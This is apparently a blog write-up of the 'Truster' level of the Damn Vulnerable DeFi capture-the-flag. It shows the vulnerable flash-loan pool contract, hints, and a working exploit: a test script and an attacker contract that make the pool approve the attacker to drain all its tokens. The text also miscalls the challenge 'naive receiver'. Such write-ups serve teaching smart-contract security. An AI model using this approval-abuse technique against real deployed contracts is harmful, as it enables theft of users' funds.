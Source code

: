 ```yaml
---
layout: post
title: 'Damn Vulnerable Defi 3: Truster'
category: Damn Vulnerable Defi
excerpt_separator:  <!--more-->
---
```


### Challenge:
Our third challenge is called 'naive receiver' and it comes with the following prompt:

```
More and more lending pools are offering flash loans. In this case, a new pool has launched that is offering flash loans of DVT tokens for free.

Currently the pool has 1 million DVT tokens in balance. And you have nothing.

But don't worry, you might be able to take them all from the pool. In a single transaction.
```

So all we have to do is drain the pool!

The contract for this challenge is located in contracts/truster/. The contract code can be found below:

<details>
<summary> TrusterLenderPool.sol:</summary>
<br>
<div markdown="1">
```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

/**
 * @title TrusterLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract TrusterLenderPool is ReentrancyGuard {

    using Address for address;

    IERC20 public immutable damnValuableToken;

    constructor (address tokenAddress) {
        damnValuableToken = IERC20(tokenAddress);
    }

    function flashLoan(
        uint256 borrowAmount,
        address borrower,
        address target,
        bytes calldata data
    )
        external
        nonReentrant
    {
        uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
        require(balanceBefore >= borrowAmount, "Not enough tokens in pool");
        
        damnValuableToken.transfer(borrower, borrowAmount);
        target.functionCall(data);

        uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
        require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
    }

}
```
</div>
</details>


The hints and solutions for this level can be found below:

<details>
<summary> Hint 1:</summary>
<br>
<div markdown="1">
Looking at this level, we see that the only thing we can really control and/or manipulate is the `target.functionCall(data)` line. Here we can pass in any data for a low-level call on any address. Due to the balanceAfter check, we also know that we cannot steal the balance during the flash loan due. So, knowing this - what action could we perform that would allow us to steal the balance after the flash loan is completed?
</div>
</details>


<details>
<summary> Hint 2:</summary>
<br>
<div markdown="1">
How can we give ourselves permission to spend tokens on another's behalf?
</div>
</details>


<details>
<summary> Solution:</summary>
<br>
<div markdown="1">
``` 
This is a great reminder of why external calls made with attacker controlled input are dangerous. While we don't have the ability to spend tokens beyond what we pay back during the course of the flashloan, we can still leverage the external call to lead to the same result. 

The external call is made by the pool contract which means that the pool contract will be the msg.sender for the call. We can abuse this detail to interact with the token contract and perform actions on the behalf of the pool. In this case, we can approve our malicious contract to spend all of the tokens held by the pool. This will allow us to steal all of the tokens even after the flash loan has completed.

```

</div>
</details>

<details>
<summary> Ethers Solution:</summary>
<br>
<div markdown="1">
```
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */   
        const TrusterAttackerFactory = await ethers.getContractFactory('TrusterAttacker', deployer);
        this.t_attacker = await TrusterAttackerFactory.deploy(this.pool.address);
        await this.t_attacker.attack(TOKENS_IN_POOL, attacker.address, this.token.address);
        await this.token.connect(attacker).transferFrom(this.pool.address, attacker.address, TOKENS_IN_POOL);
    });

```
</div>
</details>

<details>
<summary> Contract Solution:</summary>
<br>
<div markdown="1">
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

/*
 * @title PoolDrainer.sol
 * @author securerodd
 */
 interface ITrusterLenderPool { 
   function flashLoan(uint256, address, address, bytes calldata) external;
}

contract TrusterAttacker {

    ITrusterLenderPool public pool;
    constructor(address _poolAddress) {
        pool = ITrusterLenderPool(_poolAddress);
    }

    function attack(uint256 _amount, address _approvee, address _dvt) external {
        pool.flashLoan(0, _approvee, _dvt, abi.encodeWithSignature("approve(address,uint256)", _approvee, _amount));
    }

}
```
</div>
</details>